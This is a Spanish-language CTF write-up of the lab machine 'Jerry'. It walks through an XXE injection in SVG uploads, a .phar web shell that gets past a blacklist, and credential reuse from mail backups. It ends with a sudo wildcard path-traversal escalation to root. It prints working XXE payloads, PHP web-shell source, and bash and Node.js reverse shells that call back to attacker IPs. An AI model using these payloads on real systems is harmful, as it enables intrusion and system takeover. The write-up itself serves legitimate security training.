

### Fase de Reconocimiento y Descubrimiento (Enumeración)

#### Escaneo de Puertos (Nmap)

Realizamos un escaneo de puertos inicial con `nmap` para identificar los servicios, puertos abiertos y versiones en la máquina objetivo:

![[Pasted image 20260825220301.png]]

**Servicios identificados:**

* **Puerto 22/TCP (SSH):** Servicio OpenSSH para administración remota por terminal. Ver teoría en [SSH.md](<../../../Pentesting Notes/1_Enumeration/SSH.md>).
* **Puerto 25/TCP (SMTP):** Servicio de correo electrónico SMTP. Ver teoría en [SMTP.md](<../../../Pentesting Notes/1_Enumeration/SMTP.md>).
* **Puerto 80/TCP (HTTP):** Servidor web Apache httpd en ejecución. Ver teoría en [HTTP & HTTPS.md](<../../../Pentesting Notes/1_Enumeration/HTTP & HTTPS.md>).
* **Resolución de Nombres:** Para interactuar correctamente con el servidor web y sus Virtual Hosts, añadimos la entrada de dominio correspondiente en el archivo `/etc/hosts`:

```text
192.168.1.X jerry.nyx
```

***

### Enumeración Web y de Servicios

#### Inspección del Servidor Web (WhatWeb)

Analizamos las cabeceras HTTP y tecnologías del servidor web mediante la utilidad `whatweb`:

![[Pasted image 20260825220337.png]]

Accedemos a través del navegador web a `http://jerry.nyx`, donde observamos un portal corporativo de temática industrial:

![[Pasted image 20260825220526.png]]

El sitio web presenta varias secciones informativas y una opción de solicitud de empleo/contacto. Antes de profundizar manualmente, procedemos a realizar fuzzing de directorios y rutas.

#### Fuzzing de Directorios Web (ffuf y dirsearch)

Ejecutamos `ffuf` para descubrir rutas y archivos accesibles en el servidor:

```bash
ffuf -u "http://jerry.nyx/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt -e .php,.txt,.html -t 40
```

![[Pasted image 20260825220730.png]]

De manera complementaria, ejecutamos `dirsearch` para obtener una visión estructurada del árbol de directorios:

```bash
dirsearch -u http://jerry.nyx/
```

Ver guía y opciones avanzadas en [Fuzzing Cheat Sheet](<../../../Pentesting Notes/Web/Fuzzing/Cheat Sheet.md>).

![[Pasted image 20260825220921.png]]

**Rutas identificadas:**
* `/request` (y `/request/submit.php`): Formulario de contacto y solicitud de empleo.

#### Análisis del Formulario y Descubrimiento de Endpoint Oculto

Accedemos a la ruta `/request`, encontrando un formulario que incluye un campo de carga de archivos:

![[Pasted image 20260825221010.png]]

Probamos el comportamiento del formulario enviando una solicitud de prueba:

![[Pasted image 20260825221109.png]]

Interceptamos la petición con Burp Suite para analizar el tráfico generado:

![[Pasted image 20260825221803.png]]

Observamos que el formulario realiza una petición **GET** hacia `submit.php` pasando únicamente metadatos sin adjuntar el cuerpo del archivo. Al probar a cambiar el método HTTP a **POST** e incluir una extensión `.php`, no se detecta bloqueo por WAF:

![[Pasted image 20260825221935.png]]

Sin embargo, esta petición no procesa la subida real del contenido. Inspeccionamos el código fuente y las peticiones de red del frontend desde las herramientas de desarrollador:

![[Pasted image 20260825231508.png]]

Al examinar los scripts JavaScript cargados en la página, descubrimos una referencia a un endpoint oculto de subida de archivos:

![[Pasted image 20260825231553.png]]

* **Endpoint descubierto:** `/request/upload.php`

Comprobamos la interacción directa con `/request/upload.php` mediante una petición POST multipart:

![[Pasted image 20260825231745.png]]

#### Fuzzing de Extensiones Permitidas (Burp Intruder)

Para determinar qué extensiones de archivo son aceptadas por el mecanismo de subida en `upload.php`, realizamos un ataque de fuzzing con Burp Suite Intruder (deshabilitando el URL-encoding):

![[Pasted image 20260826152905.png]]

El análisis de respuestas confirma que los archivos con formato **`.svg`** (Scalable Vector Graphics) son aceptados por el backend. Probamos la subida de un archivo SVG legítimo:

![[Pasted image 20260826153303.png]]

Capturamos y enviamos la petición al Repeater de Burp Suite para verificar la respuesta del servidor:

![[Pasted image 20260826153514.png]]

***

### Análisis de Vulnerabilidades y Explotación de XXE

#### Explotación de XML External Entity (XXE Injection)

Dado que el formato SVG se estructura bajo estándares XML y el backend procesa su contenido sin deshabilitar la resolución de entidades externas (XXE), construimos un payload malicioso para leer archivos locales del sistema operativo (`/etc/passwd`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Enviamos el payload en el cuerpo de la subida:

![[Pasted image 20260826154319.png]]

* **Impacto:** Confirmamos la vulnerabilidad de **XXE Injection** y extraemos el contenido de `/etc/passwd`.
* **Usuarios del sistema identificados:**
  * `kramer`
  * `jerry`
  * `elaine`

#### Fuga de Código Fuente PHP mediante Wrappers (PHP Filter)

Aprovechando la inyección XXE y el intérprete PHP del backend, empleamos el wrapper `php://filter` para obtener el código fuente de `upload.php` codificado en Base64, evitando que el servidor lo ejecute antes de devolverlo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

![[Pasted image 20260826154523.png]]

Decodificamos la cadena Base64 obtenida para inspeccionar la lógica interna del script de subida:

![[Pasted image 20260828232005.png]]

**Análisis del código de `upload.php`:**
1. **Directorio de destino:** Los archivos se almacenan en la ruta `./job_request_files/`.
2. **Patrón de nombrado:** Los archivos subidos se renombran siguiendo la estructura `YY-MM-DD_<nombre_original>` (ejemplo: `26-08-28_shell.phar`).
3. **Mecanismo de filtrado:** Utiliza una lista negra (*blacklist*) de extensiones comunes (`.php`, `.phtml`, etc.), pero no restringe todas las extensiones ejecutables por el motor PHP.

#### Inspección de la Configuración del Servidor PHP

Continuamos enumerando archivos de configuración del servidor web mediante XXE para determinar qué extensiones adicionales son interpretadas por el motor PHP:

![[Pasted image 20260828233815.png]]

Revisamos la configuración del manejador PHP en Apache:

![[Pasted image 20260828233902.png]]

* **Hallazgo clave:** La directiva de configuración establece que los archivos con extensión **`.phar`** (*PHP Archive*) son procesados y ejecutados directamente por el intérprete PHP.

***

### Fase de Explotación / Intrusión

#### Subida de Web Shell (.phar) y Ejecución Remota de Código (RCE)

Subimos un archivo de prueba con extensión `.phar`:

![[Pasted image 20260828233922.png]]

Verificamos en el navegador que el archivo se almacena en la ruta `/request/job_request_files/` y es interpretado por PHP:

![[Pasted image 20260828233934.png]]

Ruta de acceso al archivo:

```text
http://jerry.nyx/request/job_request_files/26-08-28_shell.phar
```

Procedemos a subir una **Web Shell** completa en PHP con extensión `.phar`:

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Validamos la ejecución remota de comandos desde la interfaz web:

![[Pasted image 20260828234235.png]]

#### Establecimiento de Reverse Shell y Estabilización de TTY

Iniciamos un listener con Netcat en nuestra máquina atacante:

```bash
nc -lvnp 4242
```

Ejecutamos el comando de Reverse Shell a través de la Web Shell:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.11.111/4242 0>&1'
```

Recibimos la conexión reversa en nuestra terminal bajo el usuario de servicio `www-data`:

![[Pasted image 20260828234554.png]]

Estabilizamos la sesión para obtener una TTY completamente interactiva:

```bash
script /dev/null -c bash
# (Presionar CTRL+Z para suspender la shell)
stty raw -echo; fg
reset xterm
export TERM=xterm && export SHELL=bash
stty rows 29 columns 111
```

***

### Movimiento Lateral / Escalada a Usuario (elaine)

#### Enumeración Interna y Descubrimiento de Backups de Correo

Realizamos una enumeración del sistema de archivos en busca de permisos de escritura o configuraciones anómalas. Ver teoría en [Linux Privilege Escalation - Enumeration.md](<../../../Pentesting Notes/3_Post-Explotation/Linux Privilage Escalation/Enumeration.md>).

```bash
find / -type f -writable 2>/dev/null 
```

Al explorar el directorio `/opt`, descubrimos un script automatizado y un directorio con copias de seguridad del servicio SMTP (`/opt/backups_mail`):

![[Pasted image 20260829225234.png]]

Montamos un servidor web temporal o transferimos los archivos `.zip` de backup hacia nuestra máquina de análisis para inspeccionar los correos almacenados. Al extraer y leer uno de los correos electrónicos, encontramos información confidencial:

![[Pasted image 20260829225732.png]]

* **Fuga de Credenciales:** El correo contiene una nota con la contraseña de acceso al gimnasio:

```text
imelainenotsusie
```

#### Reutilización de Credenciales y Acceso como Usuario (elaine)

Comprobamos si la contraseña descubierta es reutilizada por alguno de los usuarios del sistema. Al probarla con la usuaria **`elaine`**:

```bash
su elaine
```

![[Pasted image 20260829230556.png]]

* **Escalada de usuario exitosa:** Obtenemos sesión activa como la usuaria `elaine`.

Leemos la flag de usuario (`user.txt`):

```bash
cat /home/elaine/user.txt
# 676ced18c8f480a80ddb4351d66d5f28
```

***

### Escalada de Privilegios a Root

#### Enumeración de Permisos Sudoers (sudo -l)

Comprobamos los privilegios de superusuario concedidos a `elaine`:

```bash
sudo -l
```

![[Pasted image 20260829230814.png]]

* **Regla sudoers identificada:**

```text
(ALL) NOPASSWD: /usr/bin/node /opt/scripts/*.js
```

Ver teoría en [Linux Privilege Escalation - Permissions.md](<../../../Pentesting Notes/3_Post-Explotation/Linux Privilage Escalation/Permissions.md>).

#### Análisis de la Vulnerabilidad (Wildcard & Path Traversal en Sudoers)

La directiva de `sudoers` permite ejecutar el binario `/usr/bin/node` sobre cualquier archivo cuya ruta coincida con el patrón `/opt/scripts/*.js`. 

Dado que el comodín `*` evalúa cualquier secuencia de caracteres hasta la extensión `.js`, es posible explotar un **Path Traversal** relativo incorporando secuencias `/../` inmediatamente después de un nombre que termine en `.js`. De este modo, `sudo` valida que la ruta inicia por `/opt/scripts/` y contiene `*.js`, pero cuando el binario `node` resuelve los enlaces relativos, ejecuta un script ubicado en cualquier directorio del sistema (como `/tmp`).

#### Creación del Exploit en Node.js y Reverse Shell como Root

1. Creamos un script en Node.js en el directorio `/tmp/exploit.js` que invoque una Reverse Shell:

```javascript
(function(){ 
    var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); 
    var client = new net.Socket(); 
    client.connect(4444, "192.168.100.140", function(){ 
        client.pipe(sh.stdin); 
        sh.stdout.pipe(client); 
        sh.stderr.pipe(client); 
    }); 
    return /a/; 
})();
```

2. Ponemos en escucha un listener con Netcat en el puerto 4444:

```bash
nc -lvnp 4444
```

3. Ejecutamos `node` con `sudo` utilizando la técnica de Path Traversal sobre el comodín:

```bash
sudo /usr/bin/node /opt/scripts/exploit.js/../../../../../../../../tmp/exploit.js
```

Recibimos la conexión interactiva en el listener y leemos la flag final de root:

![[Pasted image 20260830000538.png]]

* **Control Total:** Obtenemos una shell con privilegios de superusuario (`uid=0(root)`) y leemos la flag final `root.txt`.

***

### Diagrama de la Cadena de Explotación



***

### Relaciones y Conceptos

* **Teoría:** [HTTP & HTTPS.md](<../../../Pentesting Notes/1_Enumeration/HTTP & HTTPS.md>), [SMTP.md](<../../../Pentesting Notes/1_Enumeration/SMTP.md>), [SSH.md](<../../../Pentesting Notes/1_Enumeration/SSH.md>), [Fuzzing Cheat Sheet](<../../../Pentesting Notes/Web/Fuzzing/Cheat Sheet.md>), [File Upload Cheat Sheet](<../../../Pentesting Notes/Web/Vulnerabilities/05-File_Upload_Attack/Cheat Sheet.md>), [Path Traversal Cheat Sheet](<../../../Pentesting Notes/Web/Vulnerabilities/02-Path_Traversal/Cheat Sheet.md>), [Linux Privilege Escalation - Permissions.md](<../../../Pentesting Notes/3_Post-Explotation/Linux Privilage Escalation/Permissions.md>), [Linux Privilege Escalation - Enumeration.md](<../../../Pentesting Notes/3_Post-Explotation/Linux Privilage Escalation/Enumeration.md>)
* **Laboratorios Relacionados:** [Gattaca](Gattaca.md) (Comparte entorno Vulnyx difícil, resolución por VHosts, fuzzing web, evasión de filtros y escalada mediante privilegios sudoers), [Elevator](../../DockerLabs/Facil/Elevator.md) (Comparte bypass de extensiones en subida de archivos y escalada con permisos sudoers), [Vacaciones](../../DockerLabs/MuyFacil/Vacaciones.md) (Comparte lectura y extracción de credenciales en buzones/backups de correos), [WalkingDead](../../DockerLabs/Facil/WalkingDead.md) (Comparte descubrimiento de endpoints/scripts ocultos, webshell y reverse shell), [JarJar](../Medio/JarJar.md) (Comparte entorno Vulnyx, VHosts y evasión de filtros web), [Bola](../Medio/Bola.md) (Comparte entorno Vulnyx y análisis de código/scripts)
